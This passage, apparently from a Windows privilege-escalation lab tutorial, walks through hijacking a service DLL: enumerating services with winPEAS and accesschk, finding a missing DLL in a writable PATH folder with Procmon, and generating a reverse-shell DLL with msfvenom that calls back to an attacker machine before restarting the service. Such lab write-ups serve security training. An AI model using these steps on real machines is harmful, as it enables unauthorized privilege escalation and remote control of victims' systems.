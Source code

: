 7. Start a listener on Kali, and then start the service to trigger the exploit:

```
> net start filepermsvc
```

8. You could also need to reboot the machine to restart the service:

```
shutdown /r /t 0
```

### <mark style="color:blue;">DLL Hijacking</mark>

1. Use winPEAS to enumerate non-Windows services:

```
> .\winPEASany.exe quiet servicesinfo
```

2. Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```
> .\accesschk.exe /accepteula -uvqc user dllsvc
```

3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```
> sc qc dllsvc
```

4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.
5. Add a new filter on the Process Name matching dllhijackservice.exe.
6. On the main screen, deselect registry activity and network activity.
7. Start the service:

```
> net start dllsvc
```

8. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.
9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.
10. On Kali, generate a reverse shell DLL named hijackme.dll:

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
```

11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```
> net stop dllsvc
> net start dllsvc
```
